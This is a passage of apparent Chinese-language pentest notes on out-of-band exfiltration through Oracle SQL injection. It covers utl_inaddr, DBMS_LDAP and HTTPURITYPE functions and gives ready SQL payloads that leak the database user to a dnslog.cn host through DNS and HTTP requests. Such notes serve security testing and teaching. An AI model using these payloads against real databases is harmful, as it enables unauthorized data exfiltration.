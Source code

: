 我这里测试没有成功，报错ORA-00904: : invalid identifier，可能是版本问题。

utl_inaddr.get_host_address
报错注入那个函数，不过多介绍了
```SQL> select utl_inaddr.get_host_address((select user from dual)||'.o6xgjz.dnslog.cn')from dual;```


#### DBMS_LDAP软件包使您可以从LDAP服务器访问数据。

FUNCTIONN INIT():	
- init()用LDAP服务器初始化会话。这实际上建立了与LDAP服务器的连接。
- 语法: FUNCTION init      (hostname IN VARCHAR2,portnum  IN PLS_INTEGER)RETURN SESSION;

- HTTPURITYPE
可以创建UriType列，并在其中存储DBURITYPE，XDBURITYPE或HTTPURITYPE的实例。还可以定义自己的UriType子类型来处理不同的URL协议。



会请求httpuritype所指定的uri的函数(带外的函数)有:
- GETCONTENTTYPE() 作用：返回URI指向的文档的内容类型。
- GETCLOB() 作用：返回位于HTTP URL地址的CLOB。
- GETBLOB() 作用：返回位于URL指定的地址的BLOB。
  - ```select httpuritype.createuri('http://xxx.o6xgjz.dnslog.cn').getblob() from dual;```
- GETXML() 作用：返回位于URL指定的地址的。
  - ```select httpuritype.createuri('http://xxx.o6xgjz.dnslog.cn').getxml() from dual;```